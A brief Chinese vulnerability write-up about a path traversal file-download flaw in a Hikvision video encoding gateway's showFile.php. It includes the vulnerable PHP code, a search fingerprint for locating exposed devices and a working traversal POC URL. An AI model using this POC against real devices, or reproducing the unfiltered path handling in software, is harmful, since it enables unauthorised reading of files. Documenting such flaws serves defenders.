

# Hikvision 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
Hikvision 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登录页面


漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载

```
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```

POC

```
/serverLog/showFile.php?fileName=../web/html/main.php
```

